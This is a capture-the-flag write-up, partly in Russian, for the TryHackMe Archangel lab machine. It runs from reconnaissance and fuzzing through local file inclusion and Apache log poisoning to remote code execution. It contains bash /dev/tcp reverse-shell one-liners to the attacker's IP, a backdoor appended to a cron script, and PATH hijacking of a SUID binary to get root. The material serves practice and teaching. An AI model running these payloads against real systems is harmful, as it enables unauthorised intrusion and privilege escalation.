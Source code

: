 https://tryhackme.com/room/archangel

> [!IP]
> 10.10.139.207

```
nmap -p- 10.10.139.207 -vv -T4
```

```
sudo nmap 10.10.139.207 -sC -sV -p22,80  
```

![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420014507.png)

```
echo "10.10.139.207    mafialive.thm" >> /etc/hosts 
```
### 1 Flag
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420015150.png)
### FFUF
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -u http://10.10.139.207/FFUZ -ic -c
```

```
images                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 72ms]
pages                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 86ms]
                        [Status: 200, Size: 19188, Words: 2646, Lines: 321, Duration: 1935ms]
flags                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 104ms]
layout                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 71ms]
                        [Status: 200, Size: 19188, Words: 2646, Lines: 321, Duration: 79ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 86ms]
```

```
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://mafialive.thm/ -H "Host:FUZZ.mafialive.thm"
```

![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420015842.png)
# LFI to RCE

![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420015917.png)
Контроль это иллюзия)) Интересный параметр ?view=
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420020620.png)
php://filter/convert.base64-encode/resource=

```
echo "PD9waHAgZWNobyAnQ29udHJvbCBpcyBhbiBpbGx1c2lvbic7ID8+Cg==" |base64 -d
<?php echo 'Control is an illusion'; ?>
```
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420021626.png)
## Логика работы приложения
### 2 FLAG
```
<?php

            //FLAG: thm{############}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            if(isset($_GET["view"])){
            if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
                include $_GET['view'];
            }else{

                echo 'Sorry, Thats not allowed';
            }
        }
        ?>

```

Посмотрев исходник делаю вывод что ../.. фильтруется для path treversal.Буду использовать словарь и  начинать с конечной точки /var/www/html/development_testing

```
ffuf -w LFI\ payloads.txt:FFUZ -u http://mafialive.thm/test.php?view=/var/www/html/development_testing/FFUZ -ic -c -fs 286,310
```
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420022659.png)
```
archangel:x:1001:1001:Archangel,,,:/home/archangel:/bin/bash
root:x:0:0:root:/root:/bin/bash
```
Через error log:
```
https://www.linkedin.com/pulse/php-rce-through-log-poisoning-lucas-mendes-de-oliveira-8u68f
```

```
/var/log/apache2/error.log 
/var/log/apache2/acsess.log 
```

```
http://mafialive.thm/%3C%3fphp%20system('whoami');%20%3f%3E.php
```
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420024504.png)

Я пойду через access log
```
http://mafialive.thm/test.php?view=/var/www/html/development_testing//..//..//..//..//..////var/log/apache2/access.log
```
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420050356.png)
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420050335.png)
Revers shell
```
bash -c 'bash -i &>/dev/tcp/10.11.134.170/1337 <&1' 
```
Данную нагрузку нужно привести в URL code

```
nc -lnvp 1337
```
# 3 Flag
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420050914.png)
# LPE
### Linpeas

```
wget http://https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 80
```

```
wget http://10.11.134.170/linpeas.sh && chmod +x linpeas.sh  && ./linpeas.sh 
```

```
*/1 *   * * *   archangel /opt/helloworld.sh
```
В записях cron интересный скрипт  

```
-rwxrwxrwx 1 archangel archangel 66 Nov 20  2020 /opt/helloworld.sh
www-data@ubuntu:/tmp$ echo "bash -c 'bash -i &>/dev/tcp/10.11.134.170/1338 <&1' " >> /opt/helloworld.sh
```

```
nc -lnvp 1338
```

## 4 Flag
```
 ls -la /home/archangel/secret.
```
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420052240.png)


```
strings /home/archangel/secret/backup
cp /home/user/archangel/myfiles/* /opt/backupfiles

```
Нашел SUID-бинарник backup, который вызывал cp без указания полного пути.
```
-rwsr-xr-x 1 root      root      16904 Nov 18  2020 backup
```
Проверяем PATH))
```
echo $PATH
/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```
Добавляем свой путь 
```
export PATH=/tmp:$PATH
```
Итого)
```
echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

```
echo '#!/bin/bash' > /tmp/cp
echo "chmod u+s /bin/bash" >> /tmp/cp
chmod +x /tmp/cp
./backup
```
## 5 Flag

![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/20250420055029/screenshots/20250420052240.png)